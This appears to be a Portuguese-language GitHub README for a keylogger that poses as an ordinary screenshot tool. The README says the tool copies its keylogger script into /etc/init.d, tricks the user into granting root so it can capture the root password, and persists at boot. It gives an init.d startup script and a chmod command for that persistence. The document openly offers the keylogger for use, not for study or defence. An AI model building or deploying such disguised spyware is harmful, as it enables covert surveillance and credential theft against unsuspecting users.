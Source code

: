 # Keylogger_
Um keylogger que se disfarça de um app que tira print da tela.



Este programa captura o print da tela e salva ,normalmente, na pasta Pictures, como se fosse um programa de print comum<br>
Mas, ele também move o script Configuration.py, o keylogger, para a pasta init.d<br>
Além disso, ele requisita a permissão do usuário para executá-lo como root, desse modo, ele pega a senha root do usuário<br>
E, com isso, pode movê-lo para pastas que não se teria permissão.<br>
Mas, para funcionar corretamente, é necessário executá-lo sempre ao iniciar o computador.
<br><br>

<h2>Uso</h2>
<b>Primeiro, configurar arquivo.sh abaixo(pode-se movê-lo, automáticamente com o python):</b><br>
O tipo de script para colocar na pasta etc/init.d/, para iniciá-lo:<br><br>
 #! /bin/sh
# /etc/init.d/example
 
case "$1" in<br>
  start)<br>
    echo ""<br>
    # run application you want to start<br>
    python3 /etc/init.d/configuration.py &<br>
    ;;<br>
  stop)<br>
    echo ""<br>
   
    ;;<br>
  *)<br>
    echo "Usage: /etc/init.d/example{start|stop}"<br>
    exit 1<br>
    ;;<br>
esac<br>
 
exit 0****<br>
<br>
<b>Dar a permissão:</b>
sudo chmod 755 example



